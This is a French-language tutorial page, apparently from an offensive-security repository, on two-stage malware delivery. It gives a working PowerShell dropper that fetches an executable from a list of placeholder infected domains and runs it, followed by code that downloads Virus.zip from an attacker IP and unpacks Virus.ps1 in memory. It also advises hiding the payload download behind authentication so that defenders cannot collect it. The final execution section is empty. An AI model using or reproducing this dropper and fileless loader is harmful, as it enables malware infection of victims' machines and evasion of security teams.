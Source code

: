 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

# __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Notez qu'il est conseillé de mettre une authentification web au téléchargement dans le but d'éviter une collecte par des blueTeamers qui aurai vu passer le flux sans avoir accès au code du dropper.

### Exemple

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

## __Telechargement__

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri 'http://<MACHINE_IP>:8000/Virus.zip' -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.WebClient];

# Telechargement des donnes dans une variable
$zip = $webClient.DownloadData('http://<MachineIP>:8000/Virus.zip');
```


## __Extraction__

Une fois l'étape précédente effectué, le ZIP se trouve en mémoire dans la variable $zip. On doit donc les extraire en restant en mémoire.

```powershell
# Chargement de la bibliothèque System.IO.Compression
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;

# Ouverture du fichier 'Virus.ps1' dans l'objet zip en mémoire
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');

# Décompression du fichier
$b = [byte[]]::new($entry.Length);
$entry.Open().read($b, 0, $b.Length);

# Conversion en texte UTF8
$Code = [System.Text.Encoding]::UTF8.GetString($b);
```


## __Execution__

Une fois le payload stocké en mémoire il ne reste plus qu'à l'éxécuter.

```
```